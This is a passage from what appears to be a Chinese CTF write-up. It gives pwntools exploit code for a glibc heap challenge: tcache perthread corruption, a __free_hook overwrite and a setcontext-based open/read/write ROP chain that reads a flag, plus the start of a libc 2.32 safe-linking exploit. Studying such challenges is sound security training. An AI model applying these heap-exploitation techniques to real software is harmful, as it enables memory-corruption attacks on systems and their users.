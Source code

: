 ```python
end = start + ((length) - 100)//2
change(heapbase+0x30,p64(1)+p64(0xffffffffffff))
change(heapbase+0x40,p64(0)+p64(start))
change(heapbase+0x50,p64(end))
change(heapbase+0xd0,p64(0))
change(heapbase+0xe0,p64(0)+p64(io_str_jumps))
#在tcache perthread结构中进行任意地址的获取
change(heapbase+0x1a0,p64(free_hook))

#rdx=[rdi+8]=heapbase+0x700
change(start,p64(pcop)+p64(heapbase+0x700))
change(heapbase+0x720,p64(setcontext+61))
change(heapbase+0x7a0,p64(heapbase+0x800)+p64(rdi_ret))
change(heapbase+0x7c0,b'flag'.ljust(0x10,b'\x00'))
change(heapbase+0x800,p64(heapbase+0x7c0)+p64(rsi_ret))
change(heapbase+0x810,p64(0)+p64(open))
change(heapbase+0x820,p64(rdi_ret)+p64(3))
change(heapbase+0x830,p64(rsi_ret)+p64(heapbase+0x900))
change(heapbase+0x840,p64(rdx_ret)+p64(0x50))
change(heapbase+0x850,p64(read)+p64(rdi_ret))
change(heapbase+0x860,p64(1)+p64(write))

#----------exit--------------
edit(1,p64(free_hook))
edit(0,p64(1))
add(2)

irt()
```

decrypt safe unlink
===================

[这篇博客已经讲的很详细了](https://zikh26.github.io/posts/501cca6.html#safe-Linking)  
**与libc2.31有些许不同的地方就是libc2.32多加了对next域的限制，稍作修改即可**

代码
--

```python
from pwn import *
from pwnlib.util.packing import p64
from pwnlib.util.packing import u64
context(os='linux', arch='amd64', log_level='debug')
file = "/home/zp9080/PWN/ezheap"
libc=ELF("/home/zp9080/PWN/libc-2.32.so")
elf=ELF(file)
p=process(file)
# p=gdb.debug(file,'b *$rebase(0x1707)')
def add(size,content):
    p.sendlineafter("&gt;&gt; ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.sendlineafter("Content: ",content)

def edit(index,content):
    p.sendlineafter("&gt;&gt; ",str(2))
    p.sendlineafter("Index: ",str(index))
    p.sendlineafter("Content: ",content)

def show(index):
    p.sendlineafter("&gt;&gt; ",str(4))
    p.sendlineafter("Index: ",str(index))

def delete(index):
    p.sendlineafter("&gt;&gt; ",str(3))
```